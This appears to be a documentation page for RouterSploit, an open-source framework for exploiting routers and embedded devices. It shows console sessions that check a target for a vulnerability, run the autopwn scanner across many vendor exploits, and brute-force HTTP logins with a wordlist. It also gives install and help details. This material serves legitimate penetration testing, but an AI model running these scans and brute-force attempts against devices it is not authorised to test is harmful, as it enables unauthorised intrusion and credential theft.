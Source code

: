 ```yaml
---
description: >-
  RouterSploit is an open-source security tool designed to identify and exploit
  vulnerabilities in routers and other network devices. It's written in Python.
---
```


# 🌐 routersploit

### RouterSploit Usage Examples <a href="#routersploit-usage-examples" id="routersploit-usage-examples"></a>

RouterSploit has a number of exploits for different router models and they have the ability to check whether the remote target is vulnerable before sending off an exploit:

```
rsf > use exploits/multi/misfortune_cookie
rsf (Misfortune Cookie) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   port       80                   Target port
   target                          Target address e.g. http://192.168.1.1


rsf (Misfortune Cookie) > set target 192.168.0.2
[+] {'target': '192.168.0.2'}
rsf (Misfortune Cookie) > check
[-] Target is not vulnerable
rsf (Misfortune Cookie) >
```

If stealth is not a requirement, you can attempt to use the **autopwn** scanner module to see if any vulnerabilities can be found:

```
rsf > use scanners/autopwn
rsf (AutoPwn) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   port       80                   Target port
   target                          Target IP address e.g. 192.168.1.1


rsf (AutoPwn) > set target 192.168.0.2
[+] {'target': '192.168.0.2'}
rsf (AutoPwn) > run
[*] Running module...
[-] exploits/fortinet/fortigate_os_backdoor is not vulnerable
[-] exploits/belkin/n150_path_traversal is not vulnerable
[-] exploits/belkin/g_n150_password_disclosure is not vulnerable
[-] exploits/belkin/n750_rce is not vulnerable
[-] exploits/belkin/g_plus_info_disclosure is not vulnerable
[-] exploits/asus/infosvr_backdoor_rce is not vulnerable
[-] exploits/asus/rt_n16_password_disclosure is not vulnerable
[-] exploits/2wire/gateway_auth_bypass is not vulnerable
[-] exploits/technicolor/tc7200_password_disclosure is not vulnerable
[-] exploits/netgear/multi_rce is not vulnerable
[-] exploits/netgear/n300_auth_bypass is not vulnerable
[-] exploits/netgear/prosafe_rce is not vulnerable
[-] exploits/asmax/ar_1004g_password_disclosure is not vulnerable
[-] exploits/asmax/ar_804_gu_rce is not vulnerable
[-] exploits/linksys/wap54gv3_rce is not vulnerable
[-] exploits/linksys/1500_2500_rce is not vulnerable
[-] exploits/multi/misfortune_cookie is not vulnerable
[-] exploits/cisco/ucs_manager_rce is not vulnerable
[-] exploits/dlink/dsl_2750b_info_disclosure is not vulnerable
[-] exploits/dlink/dir_645_password_disclosure is not vulnerable
[-] exploits/dlink/dir_300_600_615_info_disclosure is not vulnerable
[-] exploits/dlink/dir_300_320_615_auth_bypass is not vulnerable
[-] exploits/dlink/dwr_932_info_disclosure is not vulnerable
[-] exploits/dlink/dns_320l_327l_rce is not vulnerable
[-] exploits/dlink/dvg_n5402sp_path_traversal is not vulnerable
[-] exploits/dlink/dir_300_600_rce is not vulnerable
[-] exploits/juniper/screenos_backdoor is not vulnerable
[-] exploits/comtrend/ct_5361t_password_disclosure is not vulnerable
[-] Device is not vulnerable to any exploits!

rsf (AutoPwn) >
```

If all else fails, RouterSploit has a number of **creds** modules that can brute force various services, including HTTP, SSH, and Telnet:

```
rsf > use creds/http_basic_bruteforce
rsf (HTTP Basic Bruteforce) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   port       80                   Target port
   target                          Target IP address or file with target:port (file://)


Module options:

   Name          Current settings                                                        Description
   ----          ----------------                                                        -----------
   path          /                                                                       URL Path
   usernames     admin                                                                   Username or file with usernames (file://)
   passwords     file:///usr/share/routersploit/routersploit/wordlists/passwords.txt     Password or file with passwords (file://)
   threads       8                                                                       Numbers of threads
   verbosity     yes                                                                     Display authentication attempts


rsf (HTTP Basic Bruteforce) > set target 192.168.0.2
[+] {'target': '192.168.0.2'}
rsf (HTTP Basic Bruteforce) > set passwords file:///usr/share/wordlists/nmap.lst
[+] {'passwords': 'file:///usr/share/wordlists/nmap.lst'}
rsf (HTTP Basic Bruteforce) > set verbosity no
[+] {'verbosity': 'no'}
rsf (HTTP Basic Bruteforce) > run
[*] Running module...
[*] Elapsed time:  1.97385120392 seconds
[+] Credentials found!

   Target          Port     Login     Password
   ------          ----     -----     --------
   192.168.0.2     80       admin     password

rsf (HTTP Basic Bruteforce) >
```

***

\


### Packages and Binaries:

#### routersploit <a href="#routersploit" id="routersploit"></a>

This package contains an open-source exploitation framework dedicated to embedded devices. It consists of various modules that aids penetration testing operations:

* exploits - modules that take advantage of identified vulnerabilities.
* creds - modules designed to test credentials against network services.
* scanners - modules that check if target is vulnerable to any exploit.
* payloads - modules that are responsible for generating payloads for various architectures and injection points.
* generic - modules that perform generic attacks.

**Installed size:** `2.14 MB`\
**How to install:** `sudo apt install routersploit`

<details>

<summary>Dependencies:</summary>

* python3
* python3-future
* python3-paramiko
* python3-pysnmp4
* python3-requests

</details>

**routersploit**

```
:~# routersploit -h
/usr/bin/routersploit -m <module> -s "<option> <value>"
```

***

**rsf.py**

```
:~# rsf.py -h
/usr/bin/rsf.py -m <module> -s "<option> <value>"
```

***

Updated on: 2022-Aug-05\


***
